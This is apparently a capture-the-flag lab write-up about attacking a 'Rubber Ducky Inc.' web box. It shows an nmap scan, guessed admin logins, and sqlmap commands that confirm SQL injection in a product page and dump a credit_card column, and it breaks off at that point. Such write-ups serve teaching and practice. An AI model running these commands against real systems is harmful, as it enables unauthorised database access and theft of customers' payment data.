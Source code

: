 Nmap -sC -sV -oA nmap IP

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-24 07:52 EDT
Nmap scan report for 10.10.31.97
Host is up (0.15s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 72:53:b7:7a:eb:ab:22:70:1c:f7:3c:7a:c7:76:d9:89 (RSA)
|   256 43:77:00:fb:da:42:02:58:52:12:7d:cd:4e:52:4f:c3 (ECDSA)
|_  256 2b:57:13:7c:c8:4f:1d:c2:68:67:28:3f:8e:39:30:ab (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Home | Rubber Ducky Inc.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.02 seconds
```
Just 2 open Ports 22 SSH and 80 HTTP let move to enumerate port 80.

![Image](https://imgur.com/5yzSyIp.png)

A Rubber Ducky Inc Company cool right?? let look around i try to burst some dirs but all what i get back is what we have in the homepage so a login page let try a random details.

admin admin

admin password

![Image](https://imgur.com/9BH4pQB.png)

But no luck so i go back to the homepage to enumerate more harder.

![Image](https://imgur.com/eKoCbG1.png)

Hmmm Browse On Our Products so let check it out maybe we can find something interesting in the page so i click on product 1.

![Image](https://imgur.com/Bq4rSJT.png)

The first thing that come to my mind is to run sqlmap on the link maybe it vulnerable.

```sqlmap -u "http://example.com/products/1" --dbs --columns```

do you want to try URI injections in the target URL itself? [Y/n/q] y

are you sure that you want to continue with further target testing? [Y/n] y

are you sure that you want to continue with further target testing? [Y/n] y

for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Enter

![Image](https://imgur.com/CivchVq.png)

Yes it vulnerable actually i just guesss lol..... 

![Image](https://imgur.com/qbGyVFy.png)

Cool we have the database let dump some details hehehehehehheehehe.....ok am going for the credit_card column first.

```sqlmap -u "http://example.com/prdoucts/1" --dump -C credit_card -T user -D duckyinc```

```